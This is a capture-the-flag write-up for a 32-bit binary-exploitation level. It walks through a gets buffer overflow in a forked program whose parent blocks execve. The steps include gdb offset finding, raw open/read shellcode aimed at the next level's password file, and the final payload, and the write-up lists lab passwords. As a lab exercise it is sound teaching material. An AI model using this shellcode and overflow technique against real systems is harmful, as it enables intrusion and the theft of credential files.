 # Level04 - 32 bits -

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level04/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level04 | `kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf` |
| level05 | `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

So first of all, we notice that we have a fork and then we execute `gets` wich is vulnerable. After trying a buffer overflow to execute a shellcode with `execve("/bin/sh")` the program terminates with the message `no exec() for you`.

Indeed after some reflexions, we notice that after the fork, the parent process doesn't allow the child process to execute `execve` command :
`execve` command called by child process sends a `SIGTRAP` signal, which lets the control back to the parent process who kills the child procress and stops the program.

So the exploit would be to give it something else than `execve("/bin/sh")` => why not trying a shellcode who read/open the file `/home/users/level05/.pass` ?

First the offset :

```shell
pattern create 200 input
run < <(cat /tmp/input)
  Invalid $PC address: 0x71414154
  Stopped reason: SIGSEGV
  0x71414154 in ?? ()

pattern search
  EIP+0 found at offset: 156
```

Then the shellcode exported in an environment variable :

```shell
export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'"`
```
So the SHELLCODE = 255 NOPs + shellcode to open/read + the path  
Now we need this env variable's address and will add 100 to be sure to land into the NOPs of the shellcode :

```shell
./getenv32 SHELLCODE ~/level04
0xffffd79b

(in gdb)
p /x 0xffffd7b9 + 100
$2 = 0xffffd7ff
```

And finally use the exploit :

```shell
(python -c 'print("A" * 156 + "\xff\xd7\xff\xff")') | ~/level04
  Give me some shellcode, k
  3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
  child is exiting...
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)
- ['Open/Read + pathname' shellcode](http://shell-storm.org/shellcode/files/shellcode-73.php)
### C

- [Man fork](https://linux.die.net/man/3/fork)
- [Man gets](https://linux.die.net/man/3/gets)
- [Man kill](https://linux.die.net/man/3/kill)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man prctl](https://linux.die.net/man/2/prctl)
- [Man ptrace](https://linux.die.net/man/2/ptrace)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man wait](https://linux.die.net/man/2/wait)